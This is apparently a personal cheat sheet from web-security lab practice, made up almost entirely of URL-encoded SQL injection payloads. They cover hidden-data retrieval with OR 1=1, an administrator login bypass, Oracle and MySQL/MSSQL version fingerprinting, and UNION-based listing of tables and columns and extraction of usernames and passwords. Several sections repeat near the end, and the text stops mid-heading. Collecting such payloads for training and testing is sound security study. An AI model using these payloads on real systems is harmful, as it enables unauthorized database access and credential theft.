 # WHERE clause allowing retrieval of hidden data
```
GET /filter?category='OR+1=1--
```
# Login bypass
```
username=administrator'OR+1=1--
```
# Query DB type and version Oracle
```
GET /filter?category=Lifestyle'UNION+SELECT+NULL,banner+FROM+v$version--
```
# Query DB type and version MySQL and MSSQL
```
GET /filter?category=Accessories'UNION+SELECT+@@version,'sqlitest2'--+-
```
# List DB contents on non-Oracle
- PostgreSQL
1. List tables
```
'UNION+SELECT+table_name,'SQLITESTTWO'+FROM+information_schema.tables--+-
```
2. List columns
```
'UNION+SELECT+column_name,'SQLITESTTWO'+FROM+information_schema.columns+WHERE+table_name='users_touygs'--+-
```
3. Extract content from both columns
```
'UNION+SELECT+password_adevhf,username_clvnch+FROM+users_touygs--+-
```
# List DB contents on Oracle
- Oracle
1. List tables
```
'UNION+SELECT+table_name,null+FROM+all_tables--+-
```
2. List columns
```
'UNION+SELECT+column_name,null+FROM+all_tab_columns+where+table_name+=+'USERS_OKFWZM'--+-
```
3. Extract contents from both columns
```
'UNION+SELECT+USERNAME_UBAAFP,PASSWORD_JYKMOZ+FROM+USERS_OKFWZM--+-
```
# Query DB type and version Oracle
```
GET /filter?category=Lifestyle'UNION+SELECT+NULL,banner+FROM+v$version--
```
# Query DB type and version MySQL and MSSQL
```
GET /filter?category=Accessories'UNION+SELECT+@@version,'sqlitest2'--+-
```
# List DB contents on non-Oracle